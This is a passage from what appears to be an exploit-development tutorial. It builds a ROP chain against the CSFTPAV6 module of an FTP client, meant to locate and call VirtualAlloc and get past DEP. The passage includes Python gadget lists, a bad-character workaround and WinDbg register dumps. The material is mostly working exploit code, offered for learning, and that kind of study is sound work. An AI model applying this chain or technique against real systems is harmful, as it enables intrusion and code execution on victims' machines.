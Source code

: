 Now we have to insert these two gadgets and the 0x1c value after the first gadget:
```
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0xffffffe4)) # -0x1C  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
```
Note how the -0x1c is calculated, it is done like this:
- **(28)** in binary (32 bits):  
 `00000000 00000000 00000000 00011100`
- **Inverting the bits**:  
`11111111 11111111 11111111 11100011`
- **Add 1** (complemento a dos):  
`11111111 11111111 11111111 11100100`

Now, inserting these gadget at the end shows us that the EAX points to our VirtualAlloc address in the stack, meaning that we already have a pointer to this value in EAX:
```c
0:004> p
eax=0245e30c ebx=06651db0 ecx=ffffffe4 edx=77042da0 esi=42424242 edi=00000000
eip=5051579a esp=0245e320 ebp=51515151 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
CSFTPAV6!FtpUploadFileW+0x48fc:
5051579a 03c1            add     eax,ecx
0:004> p
eax=0245e2f0 ebx=06651db0 ecx=ffffffe4 edx=77042da0 esi=42424242 edi=00000000
eip=5051579c esp=0245e320 ebp=51515151 iopl=0         nv up ei pl nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
CSFTPAV6!FtpUploadFileW+0x48fe:
5051579c c3              ret
0:004> dd eax L1
0245e2f0  45454545 46464646 00000000 48484848
0245e300  00000000 00000000 0245e30c 5050118e
```
With the correct value in EAX, we need to move that value back to ESI so we can use it in the next stages. We can do this with a gadget containing “PUSH EAX” and “POP ESI” instructions:
```c
rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn  
rop += pack("<L", (0x42424242)) # junk  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0xffffffe4)) # -0x1C  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret  
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
```
This way we can use EAX while ESI contains the calculated address.
The next step is to get the VirtualAlloc address of the IAT and load it into a register.
## 2. Fetching the location of the VirtualAlloc address in the IAT via ROP
We previously found that the IAT address for VirtualAlloc is 0x5054A220, **but we must remember that 0x20 is a bad character for our exploit.**
To solve this, we can increase its address by one and then use a couple of gadgets to decrease it to the original value.
First, we will use a POP EAX instruction to fetch the modified IAT address into EAX.
Then, we will pop -0x01 into ECX through a POP ECX instruction.
Lastly, we will add the value of ECX into EAX, which will be like substracting 0x01 into EAX to obtain our desired value.
**Note how we are going to reused the previous gadgets as they are still useful:**
```c
rop += pack("<L", (0x5051680a)) # pop eax ; ret  
rop += pack("<L", (0xFFFFFFFF)) # -0x01  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0x5054A221)) # VirtualAlloc address in IAT of module  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
```
